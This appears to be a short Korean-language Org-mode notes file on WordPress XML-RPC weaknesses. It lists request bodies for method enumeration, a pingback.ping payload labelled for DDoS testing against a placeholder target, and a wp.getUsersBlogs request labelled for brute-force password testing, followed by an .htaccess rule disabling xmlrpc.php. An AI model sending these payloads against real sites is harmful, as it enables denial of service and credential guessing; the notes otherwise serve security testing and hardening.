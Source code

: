 * XML RPC 취약점 

** 사용가능한 메서드 목록 보기
#+BEGIN_SRC xml
<methodCall>
  <methodName>system.listMethods</methodName>
  <params></params>
</methodCall>
#+END_SRC

** say Hello!
#+BEGIN_SRC xml
<methodCall>
  <methodName>demo.sayHello</methodName>
  <params></params>
</methodCall>
#+END_SRC


** DDOS testing payload using pingback.ping method
#+BEGIN_SRC xml
<methodCall>
  <methodName>pingback.ping</methodName>
  <params>
    <param>
      <value>
<string>
[target Site]
</string>
      </value>
    </param>
    <param>
      <value> 
<string>
</string>
      </value>
    </param>
  </params>
</methodCall>
#+END_SRC

** Brute Force Testing
#+BEGIN_SRC xml 
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
    <param>
      <value>
<string>
userid
</string>
      </value>
    </param>
    <param>
      <value> 
<string>
passwd
</string>
      </value>
    </param>
  </params>
</methodCall>
#+END_SRC

** XML-RPC 서비스 끄기
.htaccess파일에 다음을 추가 
#+BEGIN_SRC xml
# BGIN Disable XML-RPC.PHP
<Files xmlrpc.php>
Order Deny, Allow
Deny from all
</Files>
#END Disable XML-RPC.PHP
#+END_SRC
